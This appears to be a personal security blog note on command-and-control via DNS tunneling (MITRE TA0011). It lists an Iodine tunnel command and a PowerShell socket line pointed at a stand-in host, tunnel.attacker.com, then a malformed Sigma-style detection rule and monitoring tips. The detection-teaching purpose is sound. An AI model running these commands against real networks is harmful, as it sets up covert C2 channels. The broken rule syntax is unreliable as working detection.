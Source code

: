 ```yaml
---
Owner: Chris Adams
title: TA0011
type: 
topic: 
date: 2024-11-30
tags: []
draft: true
reference:
---
```

# Summary

Imagine you're watching Mr. Robot, where Elliot uses sophisticated command and control techniques to maintain access to E-Corp's systems. Similarly, this scenario demonstrates how attackers establish persistent C2 channels using DNS tunneling - a technique that hides malicious traffic within seemingly legitimate DNS queries, much like hiding secret messages in plain sight.

# Technical Details

## Environment Requirements

- Windows 10/Server 2016+ endpoints
- Domain-joined machines
- DNS Server (Windows Server)
- Administrative privileges required for initial setup

## Attack Components Table

|Event ID|MITRE ATT&CK|Kill Chain Phase|Command Line/Tool|Source|
|---|---|---|---|---|
|4688|T1071.004 (DNS Tunneling)|Command & Control|iodine.exe|Github/iodine|
|5156|T1090 (Proxy)|Command & Control|netsh.exe|Built-in|
|4104|T1059.001 (PowerShell)|Execution|PowerShell.exe|Built-in|
|1102|T1562.002 (Log Clearing)|Defense Evasion|wevtutil.exe|Built-in|

## Technical Steps

### 1. DNS Tunnel Setup
###### Create DNS tunnel using Iodine 

```powershell
.\iodine.exe -f -P password123 tunnel.attacker.com
```

### 2. PowerShell C2 Channel
##### Establish encrypted channel 

```powershell
$socket = New-Object System.Net.Sockets.TCPClient('tunnel.attacker.com', 53) $stream = $socket.GetStream()
```

### 3. Detection Rule Creation

```yaml
title: DNS Tunneling Detection 
description: Detects potential DNS tunneling activity 
log: Microsoft-Windows-Sysmon/Operational 
event_id: 22 
detection:     
selection:        
EventID: 22        
QueryName|contains: 
	- '.tunnel.' 
	- 'base64.'        
	- QueryType: 'TXT'    
	- condition: selection 
	- falsepositives:     
	- Legitimate DNS services    
	- CDN services level: high`
```


## Rule Creation Considerations

1. DNS Query Patterns:

- Monitor for high-frequency DNS queries
- Look for abnormal subdomain lengths
- Track TXT record queries

2. Network Traffic:

- Monitor port 53 traffic volume
- Track DNS response sizes
- Identify encrypted payloads

3. PowerShell Activity:

- Monitor for encoded commands
- Track network socket creation
- Log script block execution

Sources:

1. MITRE ATT&CK: [https://attack.mitre.org/tactics/TA0011/](https://attack.mitre.org/tactics/TA0011/)
2. Microsoft Security Documentation: [https://docs.microsoft.com/en-us/windows-server/security/](https://docs.microsoft.com/en-us/windows-server/security/)
3. Iodine DNS Tunnel: [https://github.com/yarrick/iodine](https://github.com/yarrick/iodine)
4. Sigma Rules Repository: [https://github.com/SigmaHQ/sigma](https://github.com/SigmaHQ/sigma)

The attack requires administrative privileges for:

- DNS configuration changes
- Network socket creation
- PowerShell execution policy modification

Misconfigurations enabling this attack:

1. Unrestricted outbound DNS traffic
2. Lack of DNS query monitoring
3. Disabled PowerShell logging
4. Missing network segmentation



<div class="neon-line"></div>

Thanks for taking the time to read through my content. If you enjoy this type of content, check back here for more updates. 

Peace ✌️

#### Created on: Nov-30-24
---



<div style="text-align: center;">
	<div class="gradient-text">👾 2024 rabb1th0les (Chris A)dams 👾</div> 
	🌴☀Thanks for supporting my page ☀🌴
	<nav>
		<ul style="list-style: none; padding: 0;">
			<div style="text-align: center;">
				<li><a href="index.html">Home</a> | <a href="Contact.html">Contact</a></li>
			</div>
		</ul>
	</nav>	
</div>
